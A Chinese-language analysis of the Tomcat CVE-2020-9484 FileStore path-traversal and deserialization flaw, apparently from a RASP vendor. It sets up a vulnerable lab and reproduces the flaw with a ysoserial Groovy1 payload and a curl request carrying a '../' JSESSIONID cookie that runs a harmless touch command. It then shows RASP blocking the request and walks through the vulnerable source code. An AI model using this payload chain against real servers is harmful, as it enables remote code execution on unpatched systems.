

# CVE-2020-9484

## 漏洞简介

&emsp;&emsp;这次是由于错误配置和 org.apache.catalina.session.FileStore 的 LFI(本地文件包含漏洞) 和反序列化漏洞引起的RCE(远程命令/代码执行)。

&emsp;&emsp;当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 `FileStore`类的一个 LFI 漏洞来读取服务器上任意以 `.session` 结尾的文件。然后通过反序列化来运行 .session 文件。

&emsp;&emsp;默认情况是使用 org.apache.catalina.session.StandardManager, 将 session储存到内存，而 PersistentManager 会将不常用的 session swap out, 从而减少内存占用。

## 影响版本

Apache Tomcat:
10.0.0-M1 ~ 10.0.0-M4

9.0.0.M1 ~ 9.0.34

8.5.0 ~ 8.5.54

7.0.0 ~ 7.0.103

## 环境搭建

本次使用`linux`进行测试, 搭建一个Tomcat服务

1.  下载 10.0.0-M4
```shell
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/10.0.0-M4/tomcat-10.0.0-M4.zip
```
2.  将文件解压之后放入 `/usr/local/tomcat/apache-tomcat-10.0.0-M4`

3.  修改`/usr/local/tomcat/apache-tomcat-10.0.0-M4/conf/context.xml`, 在Context节点下添加Manager

```xml
    <Manager className="org.apache.catalina.session.PersistentManager">
            <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
    </Manager>
```
修改之后的`context.xml`文件
```xml
<Context>

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

    <Manager className="org.apache.catalina.session.PersistentManager">
            <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
    </Manager>
    <!-- Uncomment this to enable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="SESSIONS.ser" />
    -->
</Context>
```
* 这个 directory 设置成什么都没有关系, 因为不过滤 `../`

4.  下载 groovy-2.3.9.jar

   ```
 wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar
   ```

5.  将 groovy-2.3.9.jar 放入 `/usr/local/tomcat/apache-tomcat-10.0.0-M4/lib` 下
```
 cp groovy-2.3.9.jar  /usr/local/tomcat/apache-tomcat-10.0.0-M4/lib/
```

6.  启动 Tomcat
```
 bash /usr/local/tomcat/apache-tomcat-10.0.0-M4/bin/catalina.sh start
```

## 漏洞复现

目标是在服务器上执行命令 `touch /tmp/1234.txt`，
**假设 `.session` 文件已经被上传到服务器的已知位置**。

1、下载 ysoserial

 ```
wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
 ```

2、生成java反序列化 payload

```
java -jar ysoserial-master-SNAPSHOT.jar Groovy1  "touch /tmp/1234.txt" > /tmp/test.session
```

3、发起恶意请求

```
curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'
```

4、请求的执行结果

```
<!doctype html><html lang="zh"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> 异常报告</p><p><b>消息</b> java.lang.UNIXProcess cannot be cast to java.util.Set</p><p><b>描述</b> 服务器遇到一个意外的情况，阻止它完成请求。</p><p><b>Exception</b></p><pre>java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.util.Set
	com.sun.proxy.$Proxy8.entrySet(Unknown Source)
	sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:452)
	sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	...
	...
```

虽然有报错但是反序列化已经执行了

5、执行 ls /tmp 查看结果

```
[root@VM_0_9_centos apache-tomcat-10.0.0-M4]#  ls /tmp
1234.txt
```

## RASP防护

1.再次发起相同的请求


请求被阻断了

2.RASP拦截日志非常清晰的显示了漏洞参数与调用栈


RASP截获的参数
文件读取
```
/tomcat/sessions/../../../../../tmp/test.session
```

执行的命令
```
["touch","/tmp/1234.txt"]
```

RASP截获的调用栈

```
java.lang.ProcessImpl.start(ProcessImpl.java)
java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
java.lang.Runtime.exec(Runtime.java:621)
java.lang.Runtime.exec(Runtime.java:451)
java.lang.Runtime.exec(Runtime.java:348)
org.codehaus.groovy.runtime.ProcessGroovyMethods.execute(ProcessGroovyMethods.java:530)
org.codehaus.groovy.runtime.dgm$748.doMethodInvoke(Unknown Source)
groovy.lang.MetaClassImpl.invokeMethod(MetaClassImpl.java:1207)
groovy.lang.MetaClassImpl.invokeMethod(MetaClassImpl.java:1074)
groovy.lang.MetaClassImpl.invokeMethod(MetaClassImpl.java:1016)
groovy.lang.Closure.call(Closure.java:423)
org.codehaus.groovy.runtime.ConvertedClosure.invokeCustom(ConvertedClosure.java:51)
org.codehaus.groovy.runtime.ConversionHandler.invoke(ConversionHandler.java:103)
com.sun.proxy.$Proxy8.entrySet(Unknown Source)
sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:452)
sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
java.lang.reflect.Method.invoke(Method.java:498)
java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1185)
java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2256)
java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2147)
java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1646)
java.io.ObjectInputStream.readObject(ObjectInputStream.java:482)
java.io.ObjectInputStream.readObject(ObjectInputStream.java:440)
org.apache.catalina.session.StandardSession.doReadObject(StandardSession.java:1545)
org.apache.catalina.session.StandardSession.readObjectData(StandardSession.java:1040)
org.apache.catalina.session.FileStore.load(FileStore.java:229)
org.apache.catalina.session.PersistentManagerBase.loadSessionFromStore(PersistentManagerBase.java:764)
org.apache.catalina.session.PersistentManagerBase.swapIn(PersistentManagerBase.java:714)
org.apache.catalina.session.PersistentManagerBase.findSession(PersistentManagerBase.java:493)
org.apache.catalina.connector.Request.doGetSession(Request.java:2946)
org.apache.catalina.connector.Request.getSessionInternal(Request.java:2666)
org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:512)
org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:123)
org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:92)
org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:693)
org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:74)
org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:339)
org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:373)
org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:65)
org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:845)
org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1563)
org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
java.lang.Thread.run(Thread.java:748)
```

通过上面的调用栈，我们就可以进行漏洞利用的源码分析了


## 漏洞分析
此处使用 Tomcat 10.0.0-M4 来做分析这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的 .session 文件, 如果同时存在文件上传漏洞的话就是RCE了.
首先看 FileStore 源码, 当用户请求里带有 JSESSIONID 时 会运行存在问题的load方法

``` java
public Session load(String id) throws ClassNotFoundException, IOException {
        // Open an input stream to the specified pathname, if any
        File file = file(id);
        if (file == null || !file.exists()) {
            return null;
        }
        Context context = getManager().getContext();
        Log contextLog = context.getLogger();
        if (contextLog.isDebugEnabled()) {
            contextLog.debug(sm.getString(getStoreName()+".loading", id, file.getAbsolutePath()));
        }
        ClassLoader oldThreadContextCL = context.bind(Globals.IS_SECURITY_ENABLED, null);
        try (FileInputStream fis = new FileInputStream(file.getAbsolutePath());
                ObjectInputStream ois = getObjectInputStream(fis)) {
            StandardSession session = (StandardSession) manager.createEmptySession();
            session.readObjectData(ois);
            session.setManager(manager);
            return session;
        } catch (FileNotFoundException e) {
            if (contextLog.isDebugEnabled()) {
                contextLog.debug("No persisted data file found");
            }
            return null;
        } finally {
            context.unbind(Globals.IS_SECURITY_ENABLED, oldThreadContextCL);
        }
    }
```

load 会先将 session id 转换成 file object 查看文件是否存在, 如果存在的话会读取文件. file object 会为输入的 id 添加.session 后缀 然而并没有验证文件的目录

``` java
		private File file(String id) throws IOException {
        if (this.directory == null) {
            return null;
        }
        String filename = id + FILE_EXT; 
        File file = new File(directory(), filename);
        return file;
    }
```

当文件存在时, 系统会运行 org.apache.catalina.session.getObjectInputStream 方法

``` java
  protected ObjectInputStream getObjectInputStream(InputStream is) throws IOException {
        BufferedInputStream bis = new BufferedInputStream(is);
        CustomObjectInputStream ois;
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
        if (manager instanceof ManagerBase) {
            ManagerBase managerBase = (ManagerBase) manager;
            ois = new CustomObjectInputStream(bis, classLoader,  manager.getContext().getLogger(),
                    managerBase.getSessionAttributeValueClassNamePattern(),
                    managerBase.getWarnOnSessionAttributeFilterFailure());
        } else {
            ois = new CustomObjectInputStream(bis, classLoader);
        }
        return ois;
    }
```

getObjectInputStream 方法运行 org.apache.catalina.util.CustomObjectInputStream 获取 gadget 类, 然后就反序列化session文件了。


